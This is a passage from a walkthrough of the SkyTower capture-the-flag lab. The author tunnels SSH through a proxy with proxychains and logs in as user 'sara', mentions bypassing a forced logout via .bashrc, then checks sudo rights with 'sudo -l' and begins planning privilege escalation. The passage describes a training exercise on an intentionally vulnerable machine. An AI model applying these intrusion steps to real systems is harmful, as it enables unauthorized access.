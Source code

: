 ```bash
kali@kali:~$ proxychains ssh sara@192.168.100.4
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-192.168.100.4:3128-<><>-192.168.100.4:22-<><>-OK
sara@192.168.100.4's password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu May  7 01:03:28 2020 from 192.168.100.4

Funds have been withdrawn
Connection to 192.168.100.4 closed.
```

We can, but we are kicked out after login. Do the same we did for `john` with the `.bashrc` file and re-login.
```bash
kali@kali:~$ proxychains ssh sara@192.168.100.4
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-192.168.100.4:3128-<><>-192.168.100.4:22-<><>-OK
sara@192.168.100.4's password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed May  6 23:36:02 2020 from 192.168.100.3
sara@SkyTower:~$ id
uid=1001(sara) gid=1001(sara) groups=1001(sara)
sara@SkyTower:~$ 
```

Check if the user has any `sudo` permissions.

```bash
sara@SkyTower:~$ sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
sara@SkyTower:~$ 
```

We can run `sudo /bin/cat /accounts/*` and `sudo /bin/ls /accounts/*`. But how can we escalate privilege using these?. All we can do is view the files in `/accounts/` folder. And there is nothing in that folder. 
